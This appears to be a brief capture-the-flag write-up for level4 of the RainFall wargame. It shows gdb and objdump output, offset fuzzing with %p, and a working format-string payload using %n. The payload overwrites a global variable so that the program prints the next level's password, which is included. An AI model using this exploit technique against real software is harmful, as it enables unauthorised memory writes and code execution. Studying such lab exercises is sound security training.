 ```
mov    0x8049810,%eax
cmp    $0x1025544,%eax

x 0x8049810
0x8049810 <m>:	0x00000000

objdump -t ./level4 | grep bss
08049810 g     O .bss	00000004              m

```
cmp var m with `p 0x1025544 = 16930116`

fuzz the binary

```
level4@RainFall:~$ python -c 'print "AAAA" + " %p " * 30' | ./level4
AAAA 0xb7ff26b0  0xbffff754  0xb7fd0ff4  (nil)  (nil)  0xbffff718  0x804848d  0xbffff510  0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141
```

```
level4@RainFall:~$ python -c 'print "AAAA" + " %12$x" ' | ./level4
AAAA 41414141
```

p 0x1025544 - 4 = 16930112

```
 0x08048499 <+66>:	movl   $0x8048590,(%esp)
 0x080484a0 <+73>:	call   0x8048360 <system@plt>
 
(gdb) x/s 0x8048590
0x8048590:	 "/bin/cat /home/user/level5/.pass"
```
u dont need to let the buffer open

```
python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d" + "%12$n"' | ./level4 
python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d%12$n" ' | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
